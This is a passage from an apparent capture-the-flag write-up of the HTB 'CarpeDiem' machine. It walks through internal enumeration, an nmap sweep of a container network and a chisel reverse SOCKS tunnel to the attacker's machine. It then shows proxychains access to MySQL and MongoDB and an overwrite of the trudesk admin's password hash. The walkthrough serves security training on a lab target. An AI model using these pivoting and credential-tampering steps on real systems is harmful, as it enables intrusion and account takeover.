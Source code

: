![image](https://user-images.githubusercontent.com/93153300/204039447-5f893f43-cd7b-441b-9eef-6eb1e5e45705.png)

File /var/www/html/portal/classes/Trudesk.php shows a subdomain: 

![image](https://user-images.githubusercontent.com/93153300/204039456-4f6e6336-1ed7-4ed7-b605-4b1cdbaa01be.png)
 
Add this subdomain on our local kali to the file /etc/hosts. Visiting http://trudesk.carpediem.htb shows a login page:

![image](https://user-images.githubusercontent.com/93153300/204039467-0e17adf5-c732-4a7b-97e2-a8804a37dd6b.png)

We don’t have credentials for the login page.  Continue enumeration on the target.  File /var/www/html/portal/classes/DBConnection.php has mysql credentials:

![image](https://user-images.githubusercontent.com/93153300/204039488-6297abb4-9758-43bd-af31-75a749893a7e.png)
  
Trying to connect to mysql from the target fails as it doesn’t have the ‘mysql’ command.
Upload nmap to the target and scan the network:  ./nmap -Pn --min-rate=5000 172.17.0.1-10

![image](https://user-images.githubusercontent.com/93153300/204039500-75310e55-dc76-4467-afab-a3e2ad51b956.png)
 
Our nmap scan shows a number of ip addresses with open ports that we will look into.  Since we found mysql credentials let’s start with connecting to mysql.  We will perform dynamic port forwarding in order to check mysql and the other open ports we found. Here are the steps for dynamic port forwarding using chisel:

Step 1: Run chisel on our kali locally: ./chisel server -p 1111 --reverse <br>
Step 2: Upload chisel to the target and give it executable permissions.<br>
Step 3: Run chisel on the target to connect to our local chisel server: ./chisel client 10.10.14.108:1111 R:2222:socks <br>
Step 4: On our local kali edit the file /etc/proxychains.conf.  Go to the bottom of the proxychains.conf file (under ProxyList) and add: socks5 127.0.0.1 2222.

On our local kali, connect to the mysql target with proxychains: proxychains mysql -h 172.17.0.3 -u portaldb -D portal -p

Nothing of interest found on mysql.  Take a look at another one of our nmap findings.  Connect to mongo on 172.17.0.2:   proxychains mongo 172.17.0.2

Now that we are logged into mongo, check out the databases and collections.  The commands used for this are listed below: 

![image](https://user-images.githubusercontent.com/93153300/204039518-ffb159ce-a779-4678-98bc-3ca2d7e5c5c3.png)

We found the usernames and hashed passwords to trudesk which we should be able to use to login on the trudesk subdomain we found.  However, trying to crack these hashes with john and hashcat failed.  

Instead of trying to crack these hashes, replace the current hashed password for the admin user of trudesk with a password that we create.  Based on the prefix of the hashed passwords, `$2b$10$`, we know this is bcrypt.  Create a bcrypt hashed password of ‘johnwick’ with the following command: <br>
mkpasswd johnwick --method=bcrypt -R 10 

Output for the bcrypt password is: $2b$10$hlR45AWOiInPLVA3bza3OuQupb7CX8RlaMOZYYqzTZDwtawo6vLuy

The command for updating a value in mongo is: db.accounts.updateOne( { username: "admin" },{  $set: { password: "$2b$10$hlR45AWOiInPLVA3bza3OuQupb7CX8RlaMOZYYqzTZDwtawo6vLuy" }}) 
